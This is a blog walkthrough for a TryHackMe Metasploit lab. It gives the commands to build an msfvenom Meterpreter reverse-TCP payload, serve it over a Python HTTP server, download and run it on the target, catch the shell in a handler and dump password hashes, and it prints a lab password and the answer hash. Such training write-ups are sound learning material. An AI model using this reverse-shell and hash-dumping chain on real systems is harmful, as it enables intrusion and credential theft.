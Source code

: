 ```yaml
---
layout: layouts/post.njk
title: "Walkthrough - msfvenom (Metasploit: Exploitation TryHackMe Jr Pen Tester
  Pathway)"
date: 2021-12-03T15:13:26.698Z
tags:
  - metasploit
  - msfvenom
  - tryhackme
  - jrpenetrationtester
  - jrpentester
  - exploitation
---
```

Just a quick one, I had a bit of trouble getting this working so wanted to create a straightforward guide as the ones I read weren't very clear. 

This is for the Metasploit Exploitation room, which is part of the Jr Penetration Tester pathway. This is for the MSFVENOM part. 

I was using the attackbox but you could use your own machine. 

Connect to the target machine using ssh murphy@TARGET_IP

Enter the password: 1q2w3e4r

Do - `sudo su`
Then enter the password again to elevate permissions.

Next create your payload in .elf use a different terminal for this - 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_AttackBox_IP LPORT=8080 -f elf > rev_shell.elf`


You can use any port for LPORT but to avoid confusion just use 8080.

Press enter and now you've created the payload. 

You can use the same terminal you used to create the payload on or a new one, run the following and leave it running - 

`python3 -m http.server 9000` 


This is what we use to transfer the payload to the target machine.

From the target machine (the one you are ssh'd on) run this - 


`wget http://Your_attackbox_IP:9000/rev_shell.elf`

It should then connect and you will see it download the rev_shell.elf file 

![](/images/capture-2-.png "Here is the rev_shell.elf file downloaded.")



now to get a meterpreter session you need to open another terminal and start msfconsole

once loaded do this

use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp

set LHOST YOUR_ATTACKBOX_IP

set LPORT 8080

exploit 

now go back to the ssh session on the target machine and do - 

chmod +x rev_shell.elf

./rev_shell.elf 

IMAGE HERE

This should now launch the meterpreter session on the window that you ran the exploit command from

you should see meterpreter > from here do 

run post/linux/gather/hashdump

you should now get a list of password hash's for the different users, copy the hash for claire 

$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

you can now paste this into the question "What is the other user's password hash?" to complete